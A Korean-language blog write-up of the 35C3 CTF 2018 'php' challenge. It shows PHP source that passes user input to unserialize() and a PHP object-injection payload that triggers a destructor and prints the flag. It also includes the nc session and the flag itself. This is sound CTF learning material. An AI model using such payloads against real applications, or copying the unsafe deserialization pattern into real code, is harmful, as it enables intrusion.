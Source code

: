 ```yaml
---
title: "[35C3 CTF 2018] php Write up"
date: 2021-05-05T12:59:44Z
draft: false
category: [write-up]
subcategories: [los]
tags: [test1, test2]
---
```


어제 ctftime을 돌아보다가 `35C3 CTF`가 하고 있길래 한 문제를 풀어보았다.  

원래 몇개 더 풀어보고 싶었는데 어떻게 푸는건지를 모르겠다.  

아직 Write up이 안올라왔던데, 나중에 올라오면 찾아봐야겠다.  

<!--more-->

일단 `php` 문제 정보는 다음과 같다.  

```
PHP's unserialization mechanism can be exceptional. Guest challenge by jvoisin.

Files at https://35c3ctf.ccc.ac/uploads/php-ff2d1f97076ff25c5d0858616c26fac7.tar. Challenge running at: nc 35.242.207.13 1
```

파일을 다운받아 압축을 풀어보면 `php.php` 파일을 확인할 수 있다.  

`php.php`의 내용은 다음과 같다.  

```php
<?php

$line = trim(fgets(STDIN));

$flag = file_get_contents('/flag');

class B {
  function __destruct() {
    global $flag;
    echo $flag;
  }
}

$a = @unserialize($line);

throw new Exception('Well that was unexpected…');

echo $a;
```

`STDIN`으로 입력 값을 받아 `$line`에 저장한 후, 이를 `unserialize` 함수를 통해 `unserialize` 한 값을 `$a`에 저장한다.  

마지막으로 `$a`를 출력 해 준다.  

그런데 위를 살펴보면 `B`라는 `class`가 선언되어 있고, `__destruct` 함수 안에 `$flag`함수를 출력 해 준다.  

아무래도 `unserialize` 함수의 취약점(?)을 가지고 푸는 문제인 것 같아 일단 `unserialize`함수가 무엇인지를 찾아보았다.  

> serialize()  
>> PHP 변수들을 string으로 만들어 주는 함수  
>> ex) serialize(array(3, 4, 5, 6)) => a:4:{i:0;i:3;i:1;i:4;i:2;i:5;i:3;i:6;}  
>> a:4 => 배열의 크기는 4  
>> object 일 경우 O:object_name_length:"object_name":object_size:  
>> ex) O:8:"stdclass":8:  
>> i:0;i:3 => 배열 첫 번째 인덱스의 값은 3  
>> int가 아닌 string 형태 일 경우 s:string_length:"string";    
>> ex) s:3:"one";

> unserialize()  
>> serialize 된 변수를 PHP 값으로 변환  
>> ex) unserialize(a:4:{i:0;i:3;i:1;i:4;i:2;i:5;i:3;i:6;}) => Array([0] => 3 [1] => 4 [2] => 5 [3] => 6)  

그런데 찾아보다 보니, 아래와 같은 블로그를 찾을 수 있었다.  

> [http://qkqhxla1.tistory.com/444](http://qkqhxla1.tistory.com/444)

`php object injection`에 대한 설명인데, 취약점 exploit을 위한 아래의 두 가지 조건이 `php` 문제와 정확히 일치한다.  

1. 어플리케이션은 php의 매직 메소드(__wakeup이나 destrust 같은)를 구현한 클래스를 가지고 있어야 한다.  
2. 공격중의 모든 클래스들은 취약한 unserialize()가 호출되기 전에 선언되어야 한다.  

그래서 아래와 같이 입력 해 보았다.  

```
O:1:"B":1{s:4:"flag";s:5:"/flag";}
```

그러면 `B` 클래스에 `flag`라는 이름으로 `/flag`를 할당하고 `__destruct` 메소드를 호출하며 `echo $flag`를 실행 할 것이다.  

문제에 접속하여 위와 같이 입력 했더니 flag를 읽을 수 있었다!  

```
$ nc 35.242.207.13 1
O:1:"B":1{s:4:"flag";s:5:"/flag";}
35C3_php_is_fun_php_is_fun
PHP Fatal error:  Uncaught Exception: Well that was unexpected… in /home/user/php.php:16
Stack trace:
#0 {main}
  thrown in /home/user/php.php on line 16
```

그런데 이 문제 다시 생각 해 보니 어찌됬든 `__destruct` 메소드만 호출하도록 하면 되서 굳이 내가 한 방식 말고 `O:1:"B":1:{}` 이런식으로 해도 문제가 풀릴 것 같다.  

근데 뭐 풀었으니 됬다 ㅎㅎㅎ  

```
35C3_php_is_fun_php_is_fun
```
